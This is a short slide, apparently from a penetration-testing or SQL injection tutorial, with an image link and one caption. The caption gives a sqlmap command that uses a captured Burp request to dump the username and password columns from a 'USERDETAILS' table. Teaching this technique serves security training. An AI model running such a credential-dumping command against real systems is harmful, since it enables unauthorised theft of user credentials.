

WE JUST NEED THE INTERESTING INFORMATION SUCH AS USERNAMES AND PASSWORDS IN THE TABLE “USERDETAILS”, SO WE DUMP THEM FROM THE TABLE USING THIS COMMAND:
SQLMAP -R BURP.TXT -D USERS -T USERDETAILS -C USERNAME, PASSWORD --DUMP